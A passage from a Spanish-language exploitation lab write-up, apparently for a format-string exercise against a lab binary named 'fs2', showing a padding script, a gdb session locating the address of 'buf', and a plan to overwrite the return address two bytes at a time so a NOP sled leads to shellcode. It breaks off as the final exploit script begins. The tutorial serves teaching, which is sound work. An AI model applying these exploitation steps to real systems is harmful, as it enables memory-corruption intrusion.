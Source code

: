    Entonces para incluir el jump que evite el fallo en el tobogán de NOPs, el layout de pila deseado es:


2.  Identificamos la dirección de buf\
    Para averiguar la dirección de `buf` es necesario volver a tener en cuenta la cuestión del padding. En casos como: `printf("%s",argc[1])` al string de entrada se lo pasamos como un argumento y por ende se almacena en la pila. Sumar un byte al final del string modifica los offsets en la pila y complejiza el cálculo de direcciones de memoria.

    Pasando siempre argumentos de igual longitud fijamos los offsets de la pila. Para eso llamamos al programa con un argumento extra que funciona como “padding” y es relativo a la longitud del resto de los argumentos. Así logramos consistencia en las direcciones de memoria sin importar que modifiquemos los bytes de longitud del/los string/s de entrada.\
    Creamos el archivo `exploit.py` para probar el padding:

    ```
    #! /usr/bin/env python
    import sys

    exploit= "BBBB"                   ; acá puede ir cualquier cosa
       
    padding = "A" * (100000 - len(exploit))
       
    if sys.argv[1] == "1":
      sys.stdout.write(exploit)
    elif sys.argv[1] == "2":
      sys.stdout.write(padding)
    ```

    Y averiguamos la dirección de `buf` pasándole ambos argumentos:

    ```
    user@abos:~$  ./r.sh gdb ./fs2 "$(./exploit.py 1)" "$(./exploit.py 2)"
    (gdb) break main
    (gdb) r "$(./exploit.py 1)" "$(./exploit.py 2)"
    Breakpoint 1, main (argv=3, argc=0xbffe7154) at fs2.c:7
    7         snprintf(buf,sizeof buf,"%s%c%c%hn",argc[1]);
    (gdb) x/wx buf
    0xbffe6fb8: 0x00000001
    ```

    Como siempre vamos a usar el mismo padding, es decir los argumentos van a tener siempre la misma longitud aunque editemos el bytecode del exploit, podemos estar seguros de que la dirección de `buf` en el exploit definitivo va a ser también `0xbffe6fb8`.
3.  Editamos el archivo `exploit.py` para pasar ambos inputs.\
    Como dijimos nos cuidamos de incluir el jump para evitar que se interrumpa el tobogán de NOPs antes de llegar al shellcode.\
    Y recordemos que sólo podemos sobreescribir la dirección de retorno de a dos bytes. Es por ello que al incluirla en el exploit la desglosamos en los dos bytes menos significativos de esa dirección (`ret_addr_low`) y los dos bytes más significativos ( `ret_addr_high`). Lo mismo sucede con la dirección de `buf` que vamos a escribir allí, con el primer input escribirmos la parte menos significativa de esa dirección (`buf_addr_low`) y con el segundo input escribimos los dos bytes más significativos (`buf_addr_high`).

    ```
    #! /usr/bin/env python
       